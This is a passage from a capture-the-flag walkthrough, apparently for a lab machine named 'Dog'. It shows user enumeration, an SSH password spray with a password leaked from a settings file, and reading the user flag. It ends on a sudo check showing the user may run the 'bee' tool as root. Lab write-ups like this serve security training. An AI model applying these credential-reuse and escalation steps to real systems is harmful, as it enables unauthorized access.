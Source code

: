 ### User Enumeration

Once we have in as www-data user we can read the content of /home directory to discover all user.&#x20;

```bash
ls -la /home

drwxr-xr-x  4 jobert     jobert     4096 Feb  7 15:59 jobert
drwxr-xr-x  3 johncusack johncusack 4096 Feb  7 15:59 johncusack
```

### User.flag

Now we can try to do a password spray with these two users and the password found in the `setting.php` file.

```bash
ssh johncusack@10.10.11.58
> BackDropJ2024DS2024
```

We are in as johncusack user. Let's read the flag

```bash
cat /home/johncusack/flag.txt
```



## Privilege Escalation

If we print the / directory we can notice a juicy directory

```bash
ls -la /

[..snip..]
drwxr-xr-x   3 root root  4096 Jul  9  2024 backdrop_tool
[..snip..]
```

Check the sudo permission of the user:

```bash
sudo -l

Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee

```

We can see that the user has sudo permission to run bee tool.
